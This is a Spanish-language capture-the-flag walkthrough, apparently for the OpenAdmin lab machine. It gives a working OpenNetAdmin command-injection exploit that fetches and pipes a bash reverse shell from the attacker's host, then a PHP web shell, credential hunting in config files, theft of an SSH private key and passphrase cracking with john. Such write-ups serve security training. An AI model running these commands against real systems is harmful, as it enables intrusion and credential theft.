 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con curl al opennetadmin {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Creamos un fichero index.html con codigo bash

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.8/443 0>&1
    ```

1. Creamos un servidor web con python

    ```bash
    python -m http.server 80
    ```

1. Lanzamos el curl con reverseshell

    ```bash
    curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";curl 10.10.14.8|bash;echo \"END\"&xajaxargs[]=ping" "http://10.10.10.171/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
    ```

Ya hemos ganado accesso al systema.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### User Pivoting {-}

```bash
ls
grep -r -i -E "user|pass|key|database"
grep -r -i -E "user|pass"
cd /home
find \-name user.txt 2>/dev/null
find \-name user.txt
id
sudo -l
cd /var/www
ls -la
cd internal
cd /opt/ona/www
ls
find \-type f 2>/dev/null | grep "config"
```

Aqui no hemos podido entrar en los directorios de los usuarios, y en el directorio internal del `/var/www`. Hemos visto
quel directorio `/var/www/ona` era un link symbolico a `/opt/ona/www` y buscando por archivos conteniendo config en su nombre,
hemos caido en un fichero `database_settings.inc.php` que contiene credenciales.

```bash
grep "sh$" /etc/passwd
su jimmy
Password: 
```

Hemos podido conectarnos como el usuario **jimmy** pero la flag no esta en su directorio de usuario. Parece que tenemos que convertirnos
en el usuario **joanna**.

```bash
id
```

Aqui vemos quel usuario es parte del grupo **internal**. Miramos lo que hay en el directorio `/var/www/internal`

```bash
cd /var/www/internal
ls -la
cat main.php
```

Vemos que en la web de internal se podria ver el id_rsa de joanna. Miramos la configuracion de esta web

```bash
cd /etc/apache2/sites-available
cat internal.conf
```

Aqui vemos que hay una web montada en local por el puerto 52846. Lo mas interesante aqui es quel usuario joanna a sido asignada
como AssignUserID de este servicio. Intentamos comprometer este servicio, directamente desde la maquina victima.

```bash
cd /var/www/internal
curl localhost:52846
```

Aqui vemos que podemos acceder a la web internal.

1. creamos un nuevo fichero s4vishell.php

    ```php
    <?php
        system("whoami");
    ?>
    ```

1. lanzamos una peticion get a este fichero

    ```bash
    curl localhost:52846/s4vishell.php
    #Output
    joanna
    ```

En el fichero `main.php` vemos que hace un echo de la id_rsa de joanna. Lo miramos con curl

```bash
curl localhost:52846/main.php
```

copiamos la key en un fichero joanna_rsa en nuestra maquina de ataquante y nos connectamos con ssh

```bash
chmod 600 joanna_rsa
ssh joana@10.10.10.171 -i joanna_rsa
```

Aqui vemos que la id_rsa esta protegida por una contraseña. Crackeamos la llave.

#### Crackeamos la id_rsa con ssh2john {-}

```bash
/usr/share/john/ssh2john.py joanna_rsa > hash
john --wordlists=/usr/share/wordlists/rockyou.txt hash
```

Aqui ya tenemos la contraseña de la id_rsa de joanna y nos podemos conectar

```bash
ssh -i joanna_rsa joanna@10.10.10.171
Enter passphrase
```

y ya podemos leer la flag.

